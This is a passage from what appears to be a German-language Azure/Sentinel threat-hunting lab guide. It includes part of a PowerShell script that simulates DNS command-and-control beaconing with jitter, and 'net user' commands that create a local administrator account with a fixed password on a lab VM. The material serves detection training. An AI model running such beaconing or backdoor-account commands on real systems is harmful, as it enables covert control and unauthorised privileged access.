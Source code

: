             Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    
            $x3 = 1
            
        }
        else
        {
            $x3 = $x3 + 1
        }
    
    
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

Geben Sie an der Eingabeaufforderung Folgendes ein, und geben Sie den Befehl in jeder Zeile ein, und drücken Sie nach jeder Zeile die Eingabetaste:

    ```PowerShell
    .\c2.ps1
    ```

>**Hinweis:** Es wird Fehler auflösen angezeigt. Dies ist zu erwarten.
Lassen Sie diesen Befehl/dieses Powershell-Skript im Hintergrund laufen. Schließen Sie das Fenster nicht.  Der Befehl muss einige Stunden lang Protokolleinträge generieren.  Sie können mit der nächsten Aufgabe und den nächsten Übungen fortfahren, während dieses Skript läuft.  Die durch diese Aufgabe erzeugten Daten werden später im Lab zur Bedrohungssuche verwendet.  Bei diesem Vorgang werden keine großen Datenmengen erzeugt oder verarbeitet.

### Aufgabe 2: Angriff auf Windows, das mit dem Azure Monitor Agent (AMA) konfiguriert ist

In dieser Aufgabe führen Sie Angriffe auf einen Host durch, für den der Sicherheitsereignisconnector und Sysmon konfiguriert sind.

1. Wählen Sie den virtuellen Computer `AZWIN01` aus, den Sie zuvor erstellt haben.  

1. Scrollen Sie im linken Menü nach unten zu **Vorgänge** und wählen Sie **Befehl ausführen** aus.

1. Im Bereich **Befehl ausführen** wählen Sie **RunPowerShellScript** aus.

1. Kopieren Sie die folgenden Befehle, um die Erstellung eines Adminstratorkontos zu simulieren, in das Formular `PowerShell Script` und klicken Sie auf **Ausführen**.

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

    >**Hinweis**: Achten Sie darauf, dass Sie nur einen Befehl pro Zeile eingeben und dass Sie die Befehle durch Ändern des Benutzernamens erneut ausführen können.

1. Im Fenster `Output` sollte `The command completed successfully` dreimal angezeigt werden.
